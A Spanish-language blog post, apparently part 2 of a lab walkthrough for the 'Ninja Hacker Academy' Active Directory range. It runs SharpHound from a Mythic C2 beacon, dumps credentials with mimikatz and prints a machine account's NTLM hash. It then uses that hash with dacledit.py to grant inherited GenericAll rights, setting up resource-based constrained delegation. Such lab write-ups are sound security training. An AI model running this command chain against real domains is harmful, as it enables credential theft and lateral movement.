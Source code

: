 ```yaml
---
layout: single
title: Ninja Hacker Academy Parte 2
excerpt: "En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red."
date: 2025-09-22
classes: wide
header:
  teaser: /assets/images/NHA/logo_NHA.jpeg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```



<p align="center">
  <img src="/assets/images/NHA/logo_NHA.jpeg" alt="Logo NHA" style="max-width:60%; height:auto;">
</p>

# Introducción
En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red.

Partimos del contexto en el que tenemos dos beacons del sistema sql, con la ip 192.168.56.21, uno con la cuenta NT AUTHORITY\NETWORK SERVICE, y otro con privilegios de SYSTEM.

Vamos a editar el fichero hosts de nuestra máquina atacante, para que pueda resolver los nombres de las máquinas del laboratorio. Para ello, netexec nos facilita la tarea, de esta forma:

```bash
nxc smb 192.168.56.0/24 --generate-hosts-file hosts.txt
```

![](/assets/images/NHA/hosts.png)

Una de las tareas más importantes a la hora de ejecutar un pentesting en un entorno de active directory, es obtener la data de bloodhound, para poder enumerar en condiciones todo el entorno. Para ello, es posible ejecutar en memoria SharpHouind.exe desde Mythic, que nos proporcionará lo que necesitamos.

Con register_assembly lo cargamos en Mythic, y con execute_assembly lo ejecutamos.

![](/assets/images/NHA/sharphound.png)

```bash
execute_assembly SharpHound.exe -c All,GPOLocalGroup
```
![](/assets/images/NHA/sharphound2.png)

Ahora es posible descargarlo para analizarlo desde bloodhound.

![](/assets/images/NHA/download_blood.png)

Además vamos también a ejecutar mimikatz desde mythic, para intentar obtener hashes que nos puedan servir para movernos lateralmente.

```bash
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"
```

![](/assets/images/NHA/mimi.png)

Y obtenemos el hash ntlm de la cuenta de máquina sql$

```
* Username : SQL$
	 * Domain   : ACADEMY
	 * NTLM     : 87301c6906621fb1b4973ec2b2f4d937
	 * SHA1     : f52af5354b64f68fb9deef15e3a37de252d017e9
	 * DPAPI    : f52af5354b64f68fb9deef15e3a37de2
```


Si nos vamos a bloodhound y buscamos la cuenta de máquina sql, vemos que tiene GenericAll sobre un contenedor llamado computers, y bloodhound nos sugiere utilizar dacledit con el parámetro -inheritance, para que se hereden los permisos a todos los objetos que hayan dentro del contenedor.

![](/assets/images/NHA/bloodhound3.png)

```bash
dacledit.py -action "write" -principal SQL$ -target-dn "CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN" "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937 -inheritance
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250926-194525.bak
[*] DACL modified successfully!
```

![](/assets/images/NHA/dacledit.png)

Ahora, si actualizamos la data de bloodhound, volviendo a ejecutar el comando de antes, descargando el nuevo archivo y subiéndolo a bloodhound vemos que tenemos GenericAll también sobre la máquina web$. Y además nos sugiere que utilicemos la técnica RBCD (Resource-Based Constrained Delegation).

![](/assets/images/NHA/bloodhound4.png)



